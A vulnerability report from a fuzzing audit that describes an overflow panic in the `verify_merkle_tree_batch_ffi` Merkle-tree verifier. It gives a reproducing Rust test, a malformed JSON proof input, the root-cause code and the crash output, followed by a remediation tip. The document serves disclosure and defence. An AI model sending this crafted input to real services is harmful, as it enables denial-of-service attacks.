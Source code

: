 # `verify_merkle_tree_batch_ffi` can panic 

**Author(s):** Mohammed Benhelli [@Fuzzinglabs](https://github.com/FuzzingLabs/)

**Date:** 01/08/2024

### **Executive summary**

During the process of auditing the code and developing fuzzing harnesses, we found that a malformed JSON input can
cause the `verify_merkle_tree_batch_ffi` to panic due to a subtract with overflow. This can be triggered by an attacker
to cause a denial of service.

### Vulnerability Details

- **Severity:** Medium
- **Affected Component:** `operator/merkle_tree/lib/src/lib.rs`


## Environment

- **Distro Version:** Ubuntu 22.04.4 LTS
- **Additional Environment Details:** rustc 1.81.0-nightly (24d2ac0b5 2024-07-15)

## Steps to Reproduce

To demonstrate the issue, we provide a Proof of Concept (POC) to show that the bug can be triggered.

1. Add this test to `operator/merkle_tree/lib/src/lib.rs`:
    ```rust
    #[test]
    fn test_panic_verify_merkle_tree_batch_ffi() {
        let path = "./test_files/panic-sp1-proof.json";

        let mut file = File::open(path).unwrap();

        let mut bytes_vec = Vec::new();
        file.read_to_end(&mut bytes_vec).unwrap();

        let mut merkle_root = [0; 32];
        merkle_root.copy_from_slice(&hex::decode("5ba2f046e3c1072b96f55728a67d73b4e246a6c27960b0c52d7fafb77981bcb0").unwrap());

        let result = verify_merkle_tree_batch_ffi(bytes_vec.as_ptr(), bytes_vec.len(), &merkle_root);
    }
    ```
2. Create a malformed JSON file `operator/merkle_tree/lib/src/test_files/panic-sp1-proof.json`:
   ```json
   [
     {
       "proving_system": "SP1",
       "proof": [0],
       "pub_input": null,
       "verification_key": null,
       "vm_program_code": null,
       "proof_generator_addr": "0x66f9664f97f2b50f62d13ea064982f936de76657"
     }
   ]
   ```
3. Run the test:
   ```sh
   cd operator/merkle_tree/lib
   cargo test
   ```

## Root Cause Analysis

The root cause is located in `lambdaworks-crypto-0.7.0\src\merkle_tree\utils.rs:63`.

```rust
...
// ! CAUTION !
// Make sure n=nodes.len()+1 is a power of two, and the last n/2 elements (leaves) are populated with hashes.
// This function takes no precautions for other cases.
pub fn build<B: IsMerkleTreeBackend>(nodes: &mut [B::Node], leaves_len: usize)
where
    B::Node: Clone,
{
    let mut level_begin_index = leaves_len - 1;
    ...
        level_end_index = level_begin_index - 1;
    ...
}
```

If the `leaves_len` is 1, the `level_begin_index` will be set to `0` which will cause the panic when trying to subtract 
1 from it since it's an unsigned integer.

## Detailed Behavior

```sh
...
...
attempt to subtract with overflow
thread 'tests::test_panic_verify_merkle_tree_batch_ffi' panicked at .cargo/registry/src/index.crates.io-6f17d22bba15001f/lambdaworks-crypto-0.7.0/src/merkle_tree/utils.rs:63:27:
...
...

```

## Recommendations

- Input Validation: Ensure that the `proof` field in the JSON input is properly validated before processing it.